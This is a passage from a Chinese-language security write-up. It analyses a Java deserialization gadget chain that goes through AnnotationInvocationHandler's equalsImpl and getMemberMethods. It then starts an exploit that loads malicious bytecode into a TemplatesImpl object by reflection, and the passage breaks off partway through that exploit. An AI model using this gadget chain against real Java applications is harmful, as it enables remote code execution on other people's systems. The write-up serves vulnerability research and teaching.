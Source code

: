 ```java

        return true;
    }
}

private Method[] getMemberMethods() {
    if (this.memberMethods == null) {
        this.memberMethods = (Method[])AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
            public Method[] run() {
                Method[] var1 = AnnotationInvocationHandler.this.type.getDeclaredMethods();
                AccessibleObject.setAccessible(var1, true);
                return var1;
            }
        });
    }

    return this.memberMethods;
}
```

到这里，可以看到this.memberMethods可控，到现在也就是说如果能让AnnotationInvocationHandler调用equalImpl方法，且控制其中的memberMethods，就可以完成任意方法的调用了。

**2.怎么触发equalsImpl？**

```java
public Object invoke(Object var1, Method var2, Object[] var3) {
    String var4 = var2.getName();
    Class[] var5 = var2.getParameterTypes();
    if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
        return this.equalsImpl(var3[0]);
    } else {
        ......
    }
}
```

`关键逻辑`：如果代理对象调用了equals方法，且满足equals方法有且仅有一个Object类型的参数。



> 当前exp,成功触发
>
> ```java
> //read evil bytecode-2
> FileInputStream is = new FileInputStream("D:\\Projects\\JAVA\\jdkSer\\target\\test-classes\\Aur0ra.class");
> 
> int available = is.available();
> byte[] bytes = new byte[available];
> is.read(bytes,0,available);
> 
> //construct TemplatesImpl
> TemplatesImpl templates = new TemplatesImpl();
> 
> Class<? extends TemplatesImpl> clazz = templates.getClass();
> 
> Field bytecodes = clazz.getDeclaredField("_bytecodes");
> bytecodes.setAccessible(true);
> bytecodes.set(templates,new byte[][]{bytes});
> 
> Field name = clazz.getDeclaredField("_name");
> name.setAccessible(true);
> name.set(templates,"Aur0ra");
> 